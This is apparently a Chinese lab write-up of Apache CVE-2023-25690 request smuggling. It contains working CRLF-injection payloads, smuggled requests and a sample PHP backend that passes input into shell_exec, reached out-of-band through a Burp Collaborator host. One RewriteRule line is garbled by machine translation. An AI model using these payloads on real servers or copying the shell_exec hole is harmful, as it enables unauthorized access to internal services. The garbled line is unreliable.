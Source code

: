 ```yaml
---
title: Apache HTTP Server 请求走私漏洞 CVE-2023-25690
date: 2023-09-07 16:12:59
tags:
---
```












# 简介

​	Apache HTTP Server 2.4.0到2.4.55版本上的一些mod_proxy配置允许HTTP请求走私攻击。当mod_proxy与某种形式的RewriteRule或ProxyPassMatch一起启用时，配置会受到影响，其中非特定模式匹配用户提供的请求目标(URL)数据的某些部分，然后使用变量替换重新插入被代理的请求目标。例如:

```
RewriteEngine on 
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
ProxyPassReverse /here/ http://example.com:8080/
```

请求分割/走私可能导致绕过代理服务器中的访问控制，将意外的url代理到现有的源服务器，以及缓存中毒。建议用户至少更新到Apache HTTP Server的2.4.56版本。

## 易受攻击的Apache配置崩溃

在apache配置中包含RewriteEngine，可以启用URL重写引擎。URL重写是一种技术，它允许web服务器在提供内容之前动态地将客户端浏览器请求的URL更改为不同的URL。

例如，假设我们有一个在线电子商店的URL结构如下:

https://example-shop.com/categories/1
假设Apache配置文件中有以下RewriteRule指令:

RewriteRule“^ /类别/(. *)”“http://example-shop.com: 8080 /类别? id = 1美元”;[P]
当用户请求URL https://example-shop.com/categories/1时，RewriteRule将匹配URL并使用正则表达式^/categories/(.*)捕获值1。然后，该规则通过将捕获的值作为查询参数id附加到重写的URL，将URL重写为http://example-shop.com:8080/categories?id=1。


由于规则中存在[P]标志，Apache将把重写的URL视为代理请求，并将其转发到目标服务器http://example-shop.com:8080/categories，查询参数id设置为1。然后，目标服务器将处理请求并将响应发送回Apache, Apache将其转发给客户端。

总之，带有[P]标志的RewriteRule指令用于重写url并将它们代理到不同的服务器。在这种情况下，规则匹配以/categories/开头的URL，并将捕获的值作为查询参数id附加到重写的URL。然后Apache将请求转发给目标服务器，目标服务器处理请求并返回响应。

最后，关于ProxyPassReverse /categories/ http://example-shop.com:8080/这一行简单地用代理服务器的域和路径替换后端服务器的域和路径，以便客户端能够正确地遵循链接并访问来自代理后端服务器的内容，就好像它是直接从代理服务器提供的一样。

### Data Flow

![](Apache HTTP Server 请求走私漏洞 CVE-2023-25690\1.png)

为了模拟Apache中的漏洞，我们将使用httpd版本2.4.55。此外，整个实验室将被码头化，以提高设置、配置和再现性的便利性。实验文件结构如下:

```
lab/
├── backend
│   ├── Dockerfile
│   └── src
│       ├── categories.php
│       └── index.php
├── docker-compose.yml
└── frontend
    ├── Dockerfile
    └── httpd.conf
```

最终的httpd.conf配置结构如下:

```
ErrorLog "/usr/local/apache2/logs/error.log"
CustomLog "/usr/local/apache2/logs/access.log" common

# Load necessary modules 
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>

    RewriteEngine on
    RewriteRule "^/categories/(.*)" "http://192.168.10.100:8080/categories.php?id=$1" [P]
    ProxyPassReverse "/categories/" "http://192.168.10.100:8080/"

</VirtualHost>
```

## HTTP请求分裂导致后端服务上的HTTP请求走私

在本节中，我将解释CRLF注入如何导致内部HTTP请求走私，使攻击者能够未经授权访问原本无法访问的内部资源。

识别CRLF注入
根据建议描述，httpd &lt;=2.4.55容易受到HTTP响应分裂(也称为CRLF注入)的攻击。
CRLF注入发生在:

数据通过不受信任的源(最常见的是HTTP请求)进入web应用程序
该数据包含在发送给web用户的HTTP响应头中，而不需要验证是否存在恶意字符。
在我们的例子中，可以通过在URL中传递以下CRLF前缀来确认:

```
 HTTP/1.1\r\nFoo: baarr\r\n\r\n
%20HTTP/1.1%0d%0aFoo:%20baarr
```

通过将上述前缀附加到URL，最终请求将如下所示:

```
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

在请求之后，服务器将处理数据并返回一个200响应码，表示对CRLF注入的漏洞。

```
HTTP/1.1 200 OK
Date: Mon, 22 May 2023 02:05:28 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Length: 21
Content-Type: text/html; charset=UTF-8

You category ID is: 1
```

## 内部HTTP请求通过头注射走私

使用报头注入，我们将执行内部HTTP请求走私。

让我们从下面的前缀开始:

```
HTTP/1.1\r\nHost: localhost\r\n\r\nGET /SMUGGLED
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED
```

下面的请求

```
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

应用重写规则，请求将被转换为以下格式:

```
GET /categories.php?id=1 HTTP/1.1
Host: localhost

GET /SMUGGLED HTTP/1.1
Host: backend
```

其中编码的URL被解码为有效的HTTP语法，导致后端将解码的数据视为第二个请求。

![](Apache HTTP Server 请求走私漏洞 CVE-2023-25690\2.png)

假设我们的内部应用程序有以下密码:

```
#Internal secret functionality
if(isset($_GET['secret'])){
    $secret = $_GET['secret'];

    shell_exec('nslookup ' . $secret);
}
```

通过以下前缀,我们可以发送第二个请求隐藏的功能:

```
 HTTP/1.1\r\nHost: localhost\r\n\r\nGET /categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php?secret=im8uzc5sbq7xasyxk5yhfc734uaky9.burpcollaborator.net
```

```
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/categories.php%3fsecret%3dq0r2dkj0pyl5o0c5ydcptklbi2otci.burpcollaborator.net HTTP/1.1
Host: 192.168.1.103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
```

并检索burp合作者的请求:

![](Apache HTTP Server 请求走私漏洞 CVE-2023-25690\3.png)

# 影响

此漏洞的影响是，它允许攻击者瞄准并访问本应由反向代理隐藏的内部应用程序，从而可能导致未经授权的访问、数据泄漏或进一步利用。

